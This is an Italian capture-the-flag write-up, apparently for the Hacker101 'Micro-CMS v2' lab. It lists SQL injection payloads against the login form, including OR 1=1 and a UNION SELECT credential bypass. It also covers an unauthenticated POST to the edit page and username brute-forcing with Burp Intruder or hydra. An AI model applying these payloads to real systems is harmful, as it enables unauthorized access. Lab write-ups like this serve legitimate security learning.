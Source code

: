 # Micro-CMS v2

## flag0

+ Creare nuova pagina, viene chiesto login

+ [username]admin [password]password => 'Unknown user'

+ [username]admin'sqltest [password]password => 'Traceback'

![picture](imgs/1.png)

+ [username]admin' OR 1=1# [password]password => 'Invalid password' => quindi admin(true) e password(false)

+ [username]admin= admin' UNION SELECT 'pwned'# [password]password= pwned   (craftata guardando la query nell'error)

+ Flag si trova in una pagina che esce dopo aver loggato

![picture](imgs/2.png)

## flag1

+ POST request su edit page (curl , burpsuite , etc.)

## flag2

+ Hint dice: "Credentials are secret, flags are secret. Coincidence?"

+ Torno su login, admin' OR 1=1#:password => 'Invalid password' 

+ [username]admin = dipa' OR 1=1# [password]'bruteforce con wordlist di username'

+ Io l'ho fatto con intruder di burpsuite, può essere fatto anche con hydra o tool simili.

+ [wordlist](https://github.com/jeanphorn/wordlist/blob/master/usernames.txt)
 